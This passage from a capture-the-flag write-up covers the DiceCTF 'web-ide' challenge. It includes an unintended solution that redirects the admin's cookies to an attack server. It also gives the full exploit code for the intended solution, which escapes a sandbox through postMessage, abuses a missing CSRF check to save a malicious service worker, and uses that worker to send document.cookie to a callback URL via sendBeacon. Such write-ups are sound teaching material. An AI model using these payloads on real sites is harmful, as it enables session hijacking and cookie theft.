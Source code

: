 ```
    });
</script>
</html>
```

If the admin visits this page, a pop-up window at `/ide` will be opened and then the admin gets redirected to an attack server with the cookies from `/ide` as parameter.

Note: The above solution will only work in headless browsers. In normal browsers, window.open pop up will be blocked by default if there are is user interaction. 

## Intended Solution

We managed to solve the challenge during the CTF using the unintended solution. We came to know about the intended solution only after the CTF. 

When the admin visits the attack server, a fetch request is made to `/ide/save` end-point with a JavaScript file. The file gets saved due to the lack of CSRF protection. The newly created JS file when recieves a fetch request, sends back an HTML response containing a script to send cookie to the specified callback URL. 

```
<iframe id='f' src='https://web-ide.dicec.tf/sandbox.html'></iframe>
<script>
  f.addEventListener('load', () => {
    f.contentWindow.postMessage(`[].slice.constructor('return this')().fetch("https://web-ide.dicec.tf/ide/save", 
      {
        "headers": {
          "content-type": "application/javascript",
        },
        "body": "
          self.addEventListener('fetch', e=>{
              if (e.request.method != 'GET') {
                return;
              } 
              e.respondWith(
                new Response('<script>navigator.sendBeacon(\\\\'CALLBACK URL HERE\\\\', document.cookie)</sc'+'ript>',
                  {
                    headers:{
                      \\'content-type\\':\\'text/html\\'
                    }
                  }
              ));
          });",
        "method": "POST",
        "mode": "cors",
        "credentials": "include"
      })
      .then(response=>response.text())
      .then(path=>{
          [].slice.constructor('return this')().navigator.serviceWorker.register('/ide/saves/'+path, 
          {
            scope: '/ide/saves/'
          }
      )
    });`, '*');
    setTimeout(() => { location = 'https://web-ide.dicec.tf/ide/saves/' }, 1000)
  })
</script>
```
